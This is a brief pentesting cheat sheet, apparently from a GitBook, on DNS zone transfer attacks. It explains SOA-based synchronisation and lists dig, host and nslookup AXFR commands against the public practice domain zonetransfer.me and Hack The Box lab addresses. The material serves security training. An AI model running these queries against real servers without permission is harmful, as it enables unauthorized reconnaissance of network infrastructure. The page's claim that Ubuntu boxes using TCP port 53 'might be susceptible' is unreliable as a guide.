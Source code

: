 # DNS Zone Transfer Attack

* Synchronization between the servers involved is realized by zone transfer
  * Using a secret key `rndc-key`,
    * the default configuration, the servers make sure that they communicate with their own master or slave
* The slave fetches the `SOA` record of the relevant zone from the master at certain intervals,
  * the so-called refresh time,
    * usually one hour
  * compares the serial numbers
  * If the serial number of the SOA record of the master is greater than that of the slave, the data sets no longer match.

### Remarks

* if box is ubuntu and using dns tcp on port 53
  * might be susceptible to zone transfer attack

***

### Attack Internet

* get the name server

```bash
dig soa ZoneTransfer.me
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Exploit Zone transfer
  * linux
    * `dig axfr @nsztm1.digi.ninja zonetransfer.me`
    * `host -t axfr zonetransfer.me nsztm1.digi.ninja`
  * windows
    * `nslookup -type=axfr zonetransfer.me nsztm1.digi.ninja`

### Attack HTB

```bash
nslookup
```

```bash
server <server to ask for DNS request>
```

* ask the dns server to query it self

```
10.10.11.166
```

* for zone transfer

```bash
dig axfr @dns.server.ip top_level_domain.com
```

* example

```
dig axfr @10.10.10.123 friendzoneportal.red
```

## Reference

* https://yogesh-verma.medium.com/zone-transfer-attacks-a-practical-guide-to-detection-and-prevention-2e8346d0297e
